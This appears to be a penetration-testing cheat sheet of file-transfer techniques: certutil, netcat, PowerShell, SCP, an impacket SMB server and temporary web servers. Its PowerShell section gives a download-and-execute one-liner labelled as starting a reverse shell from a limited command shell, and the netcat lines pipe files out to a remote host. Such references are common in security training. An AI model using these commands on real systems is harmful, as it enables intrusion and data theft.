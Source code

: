 # Methods

Copy & paste with base64 encoding.
`certutil` Download files.
`curl` Retrieve remote files.
`impacket-smbserver` Temporary SMB server.
`invoke-webrequest` PowerShell HTTP request.
`nc` Netcat file copy.
`net.webclient` PowerShell HTTP request.
`python` Temporary web server.
`scp` Remote file copy via SSH.
`wget` Retrieve remote files.

# certutil

`certutil -urlcache http://ipaddress/filename outputfilename`

# FTP

Use ASCII mode for transferring text files.
`ascii`

Use binary mode for transferring all other file types.
`binary`

# Netcat

Receiving End
`nc -lvnp port > destination_file`

Sending End
`nc -w3 destination_ip port < source_file`

# PowerShell

Download & Execute New (Stable) Revshell from Limited CMD Shell
```
start /b "" powershell -c iex (new-object net.webclient).downloadstring('http://ipaddress/file')

Notes:
start is to prevent session from locking up.
/b forces NO new window for the shell.
"" sets an empty window title.
```

Invoke Web Request
`Invoke-WebRequest "http://url/file" -OutFile "filepath\filename"`

Web Client
`IEX(new-object net.webclient).downloadstring('http://url/file')`

# SCP

Local to Remote
`scp -i id_rsa file user@remote-host:/remote/dir`

# SMB Server

```
impacket-smbserver -smb2support -username user -password pass share /local/dir

net use x: \\ipaddress\share /user:user pass
```

# Web Server

PHP
`php -S host:port`

Python
`python -m http.server port`
